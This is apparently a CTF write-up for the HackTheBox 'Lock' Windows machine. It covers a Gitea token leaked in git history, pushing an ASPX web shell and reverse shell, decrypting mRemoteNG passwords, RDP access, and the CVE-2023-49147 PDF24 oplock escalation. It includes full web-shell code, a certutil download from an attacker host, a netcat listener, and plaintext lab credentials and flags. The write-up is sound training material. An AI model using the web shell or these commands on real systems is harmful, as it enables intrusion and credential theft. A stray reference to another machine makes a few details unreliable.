# Lock - HackTheBox Writeup

**Category:** Windows  
**Difficulty:** Easy  
**Primary Vulnerability:** Hardcoded Credentials in Git History  
**Privilege Escalation:** CVE-2023-49147 (PDF24 MSI Installer Oplock)

---

## Synopsis

Lock is a Windows-based CTF challenge that demonstrates the critical risk of source code repositories exposed to application servers. The machine hosts a Gitea instance (port 3000) alongside a public-facing IIS web server (port 80). A hardcoded personal access token accidentally left in the public git history of a development repository grants authenticated access to a private repository containing the source code for the live website. With write access to the deployed codebase, an attacker uploads an ASPX reverse shell and obtains initial access as the `node` user running the IIS application. From there, enumeration of the user's home directory uncovers credentials for a second user stored in mRemoteNG configuration files. Lateral movement via RDP reaches `gale.dekarios`, and privilege escalation exploits a known vulnerability in the PDF24 Creator MSI installer to spawn a SYSTEM command prompt and retrieve the root flag.

---

## Reconnaissance

### Initial Setup

Start by adding the target to your hosts file for convenience:

```bash
echo "10.129.234.64    lock.htb" | sudo tee -a /etc/hosts
```



### Port Scanning

Scan for open ports and running services:

```bash
nmap -sC -sV lock.htb
```



**Results:**

- **Port 80** - HTTP (Microsoft IIS 10.0)
- **Port 445** - SMB (microsoft-ds)
- **Port 3000** - HTTP (Golang net/http - Gitea 1.21.3)
- **Port 3389** - RDP (Microsoft Terminal Services)

Four ports, two HTTP services, and one authentication vector — this tells us the attack surface is larger than a typical web-only machine.

---

## Initial Reconnaissance

### HTTP on Port 80 — The Decoy

From the nmap scan, it was noted that the web version is Microsoft IIS is verion 10.0. 
Visiting `http://lock.htb` displays a professional-looking corporate website for "Lock," a PDF and document management solutions provider:


**First Impression:** This looks like a static marketing site. Let's confirm.

**Directory Brute-forcing:**

```bash
dirsearch -u http://lock.htb
```



Results show mostly forbidden (403) paths and a `.git` folder returning 500 errors. 



The site is effectively locked down — no public directories, no API endpoints, no hidden admin panels. Dead end here.

Similarly, there are no vhosts. For the vhost, **Tyler Ramsbey's** [vhost-fuzzer script](https://github.com/TeneBrae93/offensivesecurity/blob/main/vhost-fuzzer.sh)

```bash
./vhost-fuzzer.sh lock.htb /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://lock.htb 16054
```



**SMB Enumeration (Port 445):**

```bash
smbclient -L \\lock.htb
```



Anonymous access is denied. No null session available.

**Initial Conclusion:** Port 80 looks secure. Move on.

### HTTP on Port 3000 — The Gold Mine

Navigating to `http://lock.htb:3000` reveals a Gitea instance (Git with a cup of tea) — a self-hosted git service similar to GitHub but for internal repositories.



Within the webpage was the Gitaea version 1.21.3



Running dirsearch reveals multiple directories

```bash
dirsearch -u http://lock.htb:3000
```



**Critical Observation:** The `/explore/repos` endpoint is publicly accessible and lists all repositories, including those marked as belonging to users.

**Key Finding:** A repository named `ellen.freeman/dev-scripts` is visible to unauthenticated users.



Clicking into this repository, we find a Python script called `repos.py` that appears to interact with the Gitea API. Let's examine its commit history — a common source of secrets in real-world scenarios.



**History Reveals Two Commits:**

1. `Add repos.py` — the original commit
2. `Updates repos.py` — a later fix

Clicking on the first commit (`add repos.py`):



**JACKPOT:**

```python
# store this in env instead at some point
PERSONAL_ACCESS_TOKEN = '43ce39bb0bd6bc489284f2905f033ca467a6362f'
```

The developer initially hardcoded the personal access token, then later realized the mistake and moved it to an environment variable. However, git history never forgets — the token is permanently visible in the commit history, accessible to anyone.

---

## The Attack Path Becomes Clear

With a valid personal access token, we can:

1. Authenticate to the Gitea API as `ellen.freeman`
2. Discover what other repositories this user owns (likely including private ones)
3. Access those repositories and look for credentials or deployment configurations
4. Potentially gain write access to code that's deployed to production

Let's proceed.

---

## Initial Access

### Authenticating with the Stolen Token

Knowing that gitea has an api endpoit, it is tested by visiting `/api/swagger` directory



Authorization is attempted by clicking authorize and inserting the personal access token as the AccessToken



A GET request is sent to the authenticated user to see whom the current user is



Test the token against the Gitea API:

```bash
curl -X 'GET' \
  'http://lock.htb:3000/api/v1/user?access_token=43ce39bb0bd6bc489284f2905f033ca467a6362f' \
  -H 'accept: application/json' | jq .
```



The API responds with user information, confirming the token is valid. We're now authenticated as `ellen.freeman`.

### Enumerating Private Repositories

Now that we're authenticated, let's search for all repositories accessible to this user:

```bash
curl -X 'GET' \
  'http://lock.htb:3000/api/v1/repos/search?access_token=43ce39bb0bd6bc489284f2905f033ca467a6362f' \
  -H 'accept: application/json' | jq .
```



A new repository appears: `website` — a private repository we couldn't see before.

**What is this?** Given that port 80 serves a website, and there's a private repository called `website`, there's a strong likelihood this repository contains the source code for the live production website.

### Cloning the Private Repository

Clone the `website` repository using the token as credentials:

```bash
git clone http://lock.htb:3000/ellen.freeman/website.git
# When prompted:
# Username: ellen.freeman
# Password: 43ce39bb0bd6bc489284f2905f033ca467a6362f
```



**Contents of the cloned repo:**

```
assets/
changelog.txt
.git/
index.html
readme.md
```



These are exactly the files served on port 80.
### Write access to the website itself

**We now have write access to the production website.** This was proved via editing the contents of `changelog.txt` and committing the changes to `ellen.freeman's` website repository

```bash
echo "Hello there, sp4rr0wX was here" >> changelog.txt 
git add.
git commit -m "New Owner"
git push origin main
# Username : ellen.freeman
# Password : 43ce39bb0bd6bc489284f2905f033ca467a6362f
```



The change was reflected



### Uploading a Reverse Shell

IIS serves ASPX files natively. If we push an ASPX file to this repository, and the repository is deployed to the web root, we can achieve remote code execution.

**Create a simple command execution shell first:**

```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    void Page_Load(object sender, EventArgs e) {
        string cmd = Request.QueryString["cmd"];
        if (!string.IsNullOrEmpty(cmd)) {
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c " + cmd);
            psi.RedirectStandardOutput = true;
            psi.UseShellExecute = false;
            Process p = Process.Start(psi);
            StreamReader st = p.StandardOutput;
            Response.Write(st.ReadToEnd());
        } else {
            Response.Write("Usage: ?cmd=whoami");
        }
    }
</script>
```

Save this as `shell.aspx`. Commit the changes

```bash
git add shell.aspx
git commit -m "Upload of shell.aspx"
git push origin main

# Username : ellen.freeman
# Password : 43ce39bb0bd6bc489284f2905f033ca467a6362f
```

Finally, test it works, then upgrade to a full reverse shell.

```bash
curl http://lock.htb/shell.aspx?cmd=whoami
```



**For the full reverse shell**, download a public [ASPX reverse shell](https://github.com/borjmz/aspx-reverse-shell.git), modify the attacker IP and port, and prepare to deploy it.



**Deploying the Reverse Shell:**

```bash
# In the cloned website directory
git add rev-shell.aspx
git commit -m "Uploading reverse shell"
git push origin main
# Credentials: ellen.freeman / 43ce39bb0bd6bc489284f2905f033ca467a6362f
```

### Getting the Reverse Shell

Start a netcat listener on your attack machine:

```bash
nc -lvnp 4321
```

Trigger the reverse shell by accessing it via the web:

```bash
curl http://lock.htb/rev-shell.aspx
```



**Success!** We now have a reverse shell as the `node` user running under the IIS application pool.



---

## Lateral Movement

### Discovering Credentials in the User Directory

With a shell as `ellen.freeman`, the filesystem was explored. Multiplefiles were discovered.

```bash
cd C:\Users\ellen.freeman
```

Among the files was a  `config.xml`  file in the documents folder. This was a configuration file for **mRemoteNG** — a remote connection manager used by administrators to store and manage RDP and SSH credentials across multiple servers.

The `config.xml` file was examined:

```bash
type config.xml
```



The file contained encrypted credentials for multiple remote connections. One entry in particular stood out: a connection named "RDP/Gale" configured to connect to the hostname "Lock" with the username `Gale.Dekarios`. The password was encrypted using mRemoteNG's encryption scheme, but this encryption is not considered cryptographically strong and has known decryption tools publicly available.

### Extracting the Hidden Credentials

The mRemoteNG password decryption tool was cloned from GitHub:

```bash
git clone https://github.com/gquere/mRemoteNG_password_decrypt.git
```

The `config.xml` file was transferred to the attack machine and fed to the decryption script:

```bash
./mremoteng_decrypt.py config.xml
```



The script executed successfully and returned the plaintext credentials:

```
Name: RDP/Gale
Hostname: Lock
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```

With credentials for a second user now obtained, the focus shifted to lateral movement.

### Moving Laterally via RDP

Recall from the initial nmap scan that port 3389 (RDP) was open and publicly accessible. Using the newly extracted credentials, an RDP connection was established to the target machine.

An RDP client (Remmina) was launched and a new connection was created

```
Server: lock.htb
Username: Gale.Dekarios
Password: ty8wnW9qCKDosXo6
```


The authentication succeeded immediately. A full graphical desktop session was obtained, running as `gale.dekarios` with full user privileges on the system.

### Retrieving the User Flag

The desktop of the `gale.dekarios` account was examined, and the user flag file was located and read from the desktop



```
16f3adcb5a1587a5402c28fba0bbf444
```

---

## Privilege Escalation

### Spotting the Escalation Vector

With full graphical access to the system as `gale.dekarios`, the desktop was examined for potential escalation paths. Among the various icons and shortcuts, a series of PDF24-related shortcuts were noticed prominently on the desktop.



In CTF challenges, when unusual or custom-installed software is intentionally placed on a user's desktop, it typically signals a hint toward the intended privilege escalation vector. Given that PDF24 is not standard Windows software, this was a strong indicator that a vulnerability in this application was the intended path forward.

A search for "PDF24 privilege escalation" was conducted, which quickly revealed **CVE-2023-49147** — a critical local privilege escalation vulnerability affecting PDF24 Creator versions 11.14.0 and earlier. The vulnerability exploits the MSI installer's repair mode, which runs with SYSTEM privileges.

### Understanding the Vulnerability Chain

**The Attack Surface:**

The PDF24 Creator MSI installer, when invoked with the repair flag (`/fa`), initiates a repair process that spawns sub-processes running with `NT AUTHORITY\SYSTEM` privileges. This is standard behavior for Windows MSI installers — they need elevated privileges to repair system files.

However, the vulnerability exists because of **oplock manipulation**. An oplock (opportunistic lock) is a Windows filesystem feature that allows a process to lock a file and be notified when another process attempts to access it. By setting an oplock on a file that the SYSTEM-privileged repair process will attempt to access, an attacker can freeze that operation mid-execution. When the installer resumes its operation, it opens a new command prompt window — this window remains open and running with the same SYSTEM privileges.

**The Implications:**

A low-privileged user can trigger this chain of events because:

1. The MSI file is stored in a directory readable by all users (`C:\_install\`)
2. The `msiexec.exe /fa` repair operation can be initiated by any user
3. The repair process spawns elevated sub-processes
4. The oplock manipulation allows hijacking of this process

Reference: https://sec-consult.com/vulnerability-lab/advisory/local-privilege-escalation-via-msi-installer-in-pdf24-creator-geek-software-gmbh/

### Locating the MSI Installer

The Windows File Explorer was opened, and hidden files and file extensions were enabled 
via View menu options. 



The `C:\_install\` directory was navigated to, which contained the PDF24 Creator MSI installer:

```
pdf24-creator-11.15.1-x64.msi
```



This was the installer that would be used for the privilege escalation attack.

### Obtaining the SetOpLock Binary

The exploitation of this vulnerability requires the `SetOpLock.exe` binary from Google's Symlink-Tools repository. On the attack machine, this tool was obtained and hosted on a local web server:

```bash
git clone https://github.com/p1sc3s/Symlink-Tools-Compiled.git
cd Symlink-Tools-Compiled
python3 -m http.server 8000
```

On the target RDP session, a command prompt was opened and the SetOpLock binary was downloaded using `certutil`:

```cmd
certutil -urlcache -f http://[attacker-ip]:8000/SetOpLock.exe C:\Users\Gale.Dekarios\Desktop\SetOpLock.exe
```

Similarly, the download can be perfomed by visiting the microsoft edge and pasting the `tun0 url`

The download completed successfully, and `SetOpLock.exe` was now available on the target system.

### Setting the Oplock

With the SetOpLock binary in hand, the oplock was set on the target file that the PDF24 repair process would attempt to access during its operation:

```cmd
SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```



This command froze the file, preventing any read operations on `faxPrnInst.log`. The oplock was now active and waiting.

### Triggering the Repair Process

A second command prompt window was opened. In this new window, the MSI installer was invoked with the repair flag (`/fa`):

```cmd
msiexec.exe /fa C:\_install\pdf24-creator-11.15.1-x64.msi
```



The PDF24 Creator installer GUI appeared, displaying a dialog. The "OK" button was clicked to proceed with the repair. Afterwards is the installation windows



What happened next was the key to the exploit: As the repair process executed, it attempted to read the `faxPrnInst.log` file. Due to the oplock set earlier, this read operation was frozen mid-execution. Normally, the repair process would complete and close. However, because the operation was halted by the oplock, the repair process remained incomplete, and the command prompt window that had been spawned as part of the repair remained open.

**This command prompt window was running as `NT AUTHORITY\SYSTEM`.**



### Spawning a Full SYSTEM Shell

The SYSTEM-level command prompt was now open, but to ensure full functionality and ease of interaction, a fully operational SYSTEM shell was spawned. The following manual steps were executed:

1. The title bar of the command prompt window was right-clicked
2. **Properties** was selected from the context menu
3. The **Options** tab was opened
4. The "Legacy Console Mode" option was clicked, which opened a hyperlink to enable legacy mode
5. A browser window opened automatically



6. Within the browser, **Ctrl+O** was pressed to open the file dialog
7. In the address bar, **`cmd.exe`** was typed and **Enter** was pressed



A new command prompt window opened, inheriting the SYSTEM privileges from the browser process, which was running in the context of the elevated repair operation.

The privilege level was verified with `whoami`. The output confirmed the escalation as `nt authority\system`



### Reading the Root Flag

With SYSTEM-level access established, the Administrator's desktop was accessed and the root flag was retrieved:

```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```



```
b9f67e4882f4d7a26aeb0ae2c96c0539
```

**Machine pwn3d**



---

## Attack Chain Summary

| Stage                       | Method                                   | Result                                                       |
| --------------------------- | ---------------------------------------- | ------------------------------------------------------------ |
| **Reconnaissance**          | Port scanning + git history enumeration  | Hardcoded Gitea token discovered in public repo              |
| **Initial Access**          | ASPX reverse shell uploaded via git push | Shell as `ellen.freeman` (IIS app pool user)                 |
| **File System Enumeration** | Manual exploration of user directory     | mRemoteNG `config.xml` with encrypted credentials discovered |
| **Credential Extraction**   | mRemoteNG password decryption script     | `gale.dekarios:ty8wnW9qCKDosXo6` obtained                    |
| **Lateral Movement**        | RDP authentication                       | Full desktop access as `gale.dekarios` + user flag           |
| **Privilege Escalation**    | CVE-2023-49147 (PDF24 MSI oplock attack) | Command prompt spawned as `NT AUTHORITY\SYSTEM`              |
| **System Compromise**       | Root flag retrieval                      | Machine pwned                                                |

---

## Key Learning Points

### 1. Git History is a Goldmine of Secrets

Developers often commit sensitive information with the intention of removing it in a later commit. **Git never forgets.** Always:

- Inspect public repository commit history for hardcoded secrets
- Review diffs between commits
- Assume that anything visible in git history is compromised, even if deleted later

### 2. Source Code Repository Access = Production Code Execution

When a developer's personal access token provides write access to a code repository that's deployed to production:

- Any attacker can push malicious code
- The code is automatically deployed and executed
- This is a **critical** vulnerability because the application server becomes an extension of the development pipeline

This machine demonstrates why CI/CD pipelines should:

- Require code review before deployment
- Use separate credentials for development and production
- Implement branch protection rules

### 3. Credential Storage in Application Metadata

Applications like mRemoteNG store credentials for convenience, but if encrypted weakly:

- The encryption is easily broken
- Credential files become high-value targets during lateral movement
- This is why secrets should never be stored locally; use credential managers or centralized vaults

### 4. MSI Installer Privilege Escalation is Real

The PDF24 vulnerability (CVE-2023-49147) exploits the fact that:

- MSI repair processes run with elevated privileges
- Oplock attacks can hijack file operations
- A low-privileged user can trigger repairs
- These vectors persist across Windows versions if not patched

Always keep software updated, and never run repair/reinstall operations with admin privileges while on a shared system.

### 5. Debugging Tools and Accessibility

While this machine showcases Node.js Inspector on port 9229 (Reactor), the lesson applies here too:

- Exposed debugging ports are golden tickets to privilege escalation
- Any exposed debugging interface (debugger, REPL, console) running as a privileged user can be exploited
- Restrict access to debugging ports to localhost only and require strong authentication

### 6. The Principle of Least Privilege

- `ellen.freeman` had write access to production code — unnecessary for an IIS user
- `gale.dekarios` had RDP access to a production server — should be restricted
- The PDF24 repair process should not run with SYSTEM privileges for a low-privileged user

Every user should have only the minimum permissions required for their role.

---

## Tools and Techniques Used

|Tool|Purpose|
|---|---|
|`nmap`|Port and service discovery|
|`dirsearch`|HTTP directory enumeration|
|`curl`|Gitea API interaction and reverse shell triggering|
|`git`|Repository cloning and code deployment|
|`netcat`|Reverse shell handling|
|`Remmina`|RDP client for graphical access|
|`mremoteng_decrypt.py`|Encrypted credential extraction|
|`SetOpLock.exe`|Oplock manipulation for privilege escalation|
|`msiexec.exe`|MSI installer repair (privilege escalation trigger)|
|`certutil.exe`|File download from attack machine|

---

## Difficulty Assessment

**Rated Difficulty:** Easy 

**Reasoning:**

- Each stage has a clear, linear attack path
- No complex exploitation techniques required
- Standard Windows lateral movement (RDP + credential extraction)
- Well-documented CVE with public PoCs available
- Good for beginners to learn: git security, code deployment risks, Windows privilege escalation

---

**Machine Status:**  Pwned  
**User Flag:** `16f3adcb5a1587a5402c28fba0bbf444`  
**Root Flag:** `b9f67e4882f4d7a26aeb0ae2c96c0539`

---
